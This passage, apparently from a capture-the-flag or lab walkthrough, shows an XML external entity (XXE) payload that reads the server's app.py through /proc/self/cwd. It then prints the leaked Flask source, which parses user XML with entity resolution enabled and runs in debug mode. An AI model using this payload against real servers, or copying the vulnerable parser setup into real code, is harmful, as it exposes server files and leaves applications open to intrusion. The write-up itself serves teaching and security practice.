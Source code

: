 <img width="898" height="900" alt="image" src="https://github.com/user-attachments/assets/1bbfb36c-9694-448c-b8c8-9598b5fa1806" />

2. Inspect application code

Next, check the app source for hints by reading `app.py` from the current working directory:

```
<?xml version="1.0"?>
<!DOCTYPE root [ <!ENTITY x SYSTEM "file:///proc/self/cwd/app.py"> ]>
<root>&x;</root>

```

<img width="867" height="894" alt="image" src="https://github.com/user-attachments/assets/35b7726f-768d-47a4-95aa-7f49cf49f07a" />

```
<root># app.py
from flask import Flask, request, render_template
from lxml import etree
import time
# CONFIG_FILE_PATH = "/etc/superapp/config.xml"



app = Flask(__name__)


@app.before_request
def slow_down_all_requests():
    time.sleep(0.2)




@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        xml_content = request.form.get('xml', '')
        parser = etree.XMLParser(resolve_entities=True)
        try:
            doc = etree.fromstring(xml_content.encode('utf-8'), parser=parser)
            result = etree.tostring(doc, pretty_print=True).decode('utf-8')
            return render_template('index.html', result=result, xml_input=xml_content)
        except Exception as e:
            return render_template('index.html', error=str(e), xml_input=xml_content)

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host="0.0.0.0", debug=True)
</root>
```

